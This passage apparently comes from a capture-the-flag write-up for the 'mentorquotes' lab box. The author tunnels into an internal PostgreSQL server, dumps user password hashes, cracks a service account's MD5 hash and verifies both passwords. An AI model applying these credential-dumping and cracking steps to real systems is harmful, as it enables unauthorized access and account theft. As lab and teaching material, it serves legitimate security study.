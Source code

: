 ```bash
proxychains -q psql -U postgres -W postgres --host 172.22.0.1 -d mentorquotes_db
psql: warning: extra command-line argument "postgres" ignored
Password:
psql (15.2 (Debian 15.2-1), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.
```
```sql
mentorquotes_db=# \dt

          List of relations
 Schema |   Name   | Type  |  Owner
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)
```
```sql
mentorquotes_db=# select * from users;
 id |         email          |  username   |             password
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)
```

We already have james's password but we can try to feed the service account's hash into crackstation real quick, and we get a match
```
service_acc:123meunomeeivani
```

```bash
printf 123meunomeeivani|md5sum
53f22d0dfa10dce7e29cd31f4f953fd8  -
printf kj23sadkj123as0-d213|md5sum
7ccdcd8c05b59add9c198d492b36a503  -
```
```sql
 id |                 title                 |                                                                                                                                                                   >
----+---------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------->
  1 |  I believed I was good                | I was so bad at studies in school. Teachers used to tell me that I should follow a different passion other than typical education. Nonetheless, I got rid of the n>
  2 | Find your passion before its too late | When I was growing up, I did not really have much, sure I enjoyed my passion but did not take it seriously. When I worked in a gas station for 3 years at that poi>
  3 | Never too late                        | I was a construction worker for almost 10 years. I had to work there because I did not have any educational background to work in the academic sector. But I reali>
  4 | Age is just a number                  | When I was was kid, I used to create very simple video games as a hobby. Because I loved it so much, I thought to myself that I am going to be a game developer so>
  5 | Its all worth it in the end           | Working as a school teacher, I had a lot of responsibilities to fulfill. Even though I really loved teaching kids, the pressure was unbearable. I had 10-hour shif>
(5 rows)
```
```sql
mentorquotes_db=# select * from cmd_exec;
                               cmd_output
------------------------------------------------------------------------
```